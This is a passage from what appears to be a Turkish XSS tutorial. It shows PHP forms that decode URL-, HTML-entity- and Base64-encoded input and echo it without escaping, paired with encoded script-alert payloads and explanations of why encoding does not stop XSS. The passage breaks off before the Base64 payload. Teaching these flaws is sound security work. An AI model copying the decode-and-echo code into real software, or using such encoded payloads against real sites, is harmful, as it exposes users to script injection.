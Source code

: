 **URL Encoded Payload**

```html
%3Cscript%3Ealert()%3C/script%3E
```

**Nasıl Çalışır:** urldecode fonksiyonu URL encoded veriyi decode eder ve veri ekrana yazdırılır. Payload, script etiketini içerir ve URL decode edildikten sonra, JavaScript kodu çalıştırmak için tetiklenir.

**Zaafiyet:** URL encoding, bazı karakterlerin özel anlamını gizler, ancak bu karakterler decode edildikten sonra yine de XSS saldırılarına yol açabilir.

### HTML Encoding

```php
<form action="" method="GET">
  <input type="text" name="inputHTML" required />
  <button type="submit">HTML Encode</button>
</form>

if (isset($params['inputHTML'])) {
  $htmldecoded = html_entity_decode($params['inputHTML'], ENT_QUOTES | ENT_HTML5);
  echo "<p style='display: none;'>" . $htmldecoded . "</p>";
}
```

**HTML Encoded Payload**

```html
&lt;script&gt;alert()&lt;/script&gt;
```

**Nasıl Çalışır:** html_entity_decode fonksiyonu HTML encoded veri decode eder ardından veri ekrana yazdırılır. Payload, HTML karakterleri kodlanmış olarak gönderilir, ancak bu karakterler decode edildikten sonra JavaScript kodunu tetikler.

**Zaafiyet:** HTML encoding, karakterlerin özel HTML anlamlarını gizler, ancak bu karakterler decode edildikten sonra yine de XSS saldırılarına yol açabilir.

### Base64 & HTML Encoding

```php
<form action="" method="GET">
  <input type="text" name="inputB64HTML" required />
  <button type="submit">Base64 & HTML Encode</button>
</form>

if (isset($params['inputB64HTML'])) {
  $b64htmldecoded = html_entity_decode(base64_decode($params['inputB64HTML']), ENT_QUOTES | ENT_HTML5);
  echo "<p style='display: none;'>" . $b64htmldecoded . "</p>";
}
```

**Base64 & HTML Encoded Payload**
